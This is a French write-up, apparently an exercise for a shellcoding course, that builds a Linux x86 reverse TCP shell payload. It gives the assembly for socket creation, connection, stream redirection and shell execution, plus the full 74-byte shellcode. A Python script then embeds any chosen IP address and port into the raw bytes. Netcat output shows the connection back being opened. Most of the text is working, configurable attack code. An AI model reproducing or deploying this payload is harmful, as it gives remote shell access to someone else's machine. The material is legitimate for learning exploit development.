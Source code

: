 # Assignement 2 #

Dans le cadre du second exercice, il est demande de réaliser un shellcode permettant d'obtenir un shell distant.

L'idée ici est dans un premier temps de créer un socket puis d'établir une connexion en indiquant une adresse IP ainsi qu'un port. Les sorties standard stdin, stdout et stderr sont redirigées afin de pouvoir être utilisées une fois la connexion établie par un shell distant. 

## Création d'un socket ##
La principal référence bibliographique est la documentation des appels systèmes http://man7.org/linux/man-pages/man2/socketcall.2.html. L'appel socketcall est utilisé pour définir les actions sur les sockets en fonction du champ call. La valeur 1 indique que c'est la création d'un socket qui nous interesse. Il s'agit ici d'indiquer un domain, un type et un protocol. Nous prenons le protocol IP de type SOCK_STREAM.

```c
	xor ebx, ebx
	mul ebx
	push ebx
	inc ebx		;socket
	push ebx
	push 0x2
	mov ecx, esp	;*args
	mov al, 0x66
	int 0x80
```
## Création de la connexion ##
Nous procédons de la même manière pour créer la connexion en indiquant l'adresse IP et le port logique. Nous nous sommes appuyé sur la structure sockaddr afin de connaître les différents élément necessaires.

```c
	push 0x0101017f	; @Ip 127.1.1.1
	push dword 0x5c11 ; Port 4444
	inc ebx
    	push word bx      ; Ajout de AF_INET et pour eviter d'avoir un null byte
    	mov ecx, esp	
	push 0x10	; addrlen
	push ecx	; struct *addr
	push edx	; sockfd
	mov bl, 0x3	; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80
```

## Redirection ##

Ici, nous redirigeons les 3 sorties vers le socket via l'appel système dup2.

```c
	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _

```

## Exécution du shell ##
Puis enfin, le shell(/bin/bash) est exécuté une fois la connexion établie.

```c
	xor ecx, ecx
	mov edx, ecx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80
```



## Code complet ##

```c
; Shell_reverse_Tcp shellcode
; Author: Alain Menelet
; Taille : 74 bytes
; 2017


global _start

section .text

_start:

	; Création du socket
	; http://man7.org/linux/man-pages/man2/socketcall.2.html
	; int socketcall(int call, unsigned long *args)
	; int socket(int domain, int type, int protocol)
	
	; for domain we use AF_INET(0x2)
	; for type SOCK_STREAM(0x1)
	; for protocol IP (0x0)	

	xor ebx, ebx
	mul ebx
	push ebx
	inc ebx		;socket
	push ebx
	push 0x2
	mov ecx, esp	;*args
	mov al, 0x66
	int 0x80

	; we need to save the result of socket function for later usage

	xchg edx, eax

	; création de la connexion
	; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen)
	; we save sockfd just before
	; sockaddr structure

	push 0x0101017f	; @Ip 127.0.0.1
	push dword 0x5c11 ; Port 4444
	inc ebx
    push word bx      ; Ajout de AF_INET et pour eviter d'avoir un null byte
    mov ecx, esp	
	push 0x10	; addrlen
	push ecx	; struct *addr
	push edx	; sockfd
	mov bl, 0x3	; connect call
	mov ecx, esp	
	mov al, 0x66
	int 0x80

	
	; redirection des flux via dup
	; nous allons rediriger les sorties standards vers notre socket
	; int dup2(int oldfd, int newfd);

	xor ecx, ecx
	mov cl, 0x2
_:
	mov al, 0x3f
	int 0x80
	dec ecx
	jns _
	

	; execve
	; execute un shell /bin/bash des la connexion réussie

	xor ecx, ecx
	mov edx, ecx
	push edx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80	

```

## Exécution ##

Sur le premier terminal:
```
./shellcode.c
```

Sur le second terminal: 
```c
nc -l -p 4444 -v
pwd
/home/xophidia
```

## Améliorer la saisie de l'adresse IP et du port ##

Pour cette partie, python s'avère être plus pratique que le C.

```python
#!/usr/bin/env python

import argparse
import struct

def main():
    parser = argparse.ArgumentParser(description="Reverser TCP Shell")
    parser.add_argument('--address', dest="addressIp", default=None, type= str, help="Put your address ip", required=True)
    parser.add_argument('--port', dest="port", default=4444, type=int, help="Put the port", required=True)
    args = parser.parse_args()

    ip = args.addressIp.split('.')
    port = args.port

    shellcode = ("\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68"+
    struct.pack("!4B",int(ip[0]), int(ip[1]),int(ip[2]), int(ip[3]))+"\x66\x68"+struct.pack("!H",port)+"\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80");


    print '"' + ''.join('\\x%02x' % ord(c) for c in shellcode) + '";'

if __name__=='__main__':
    main()

```

### Test ###

```c
./reverse_script.py --address 127.1.1.1 --port 1234
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x92\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x43\x66\x53\x89\xe1\x6a\x10
\x51\x52\xb3\x03\x89\xe1\xb0\x66\xcd\x80\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc9\x89\xca\x52\x68\x2f\x2f\x73\x68\x68
\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";
````

Nous recompilons comme lors de l'exemple précédent puis testons le tout.

```c
nc -l 127.1.1.1 -p 1234 -v
Listening on [127.1.1.1] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 40102)
id
uid=1000(xophidia) gid=1000(xophidia) groups=1000(xophidia),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```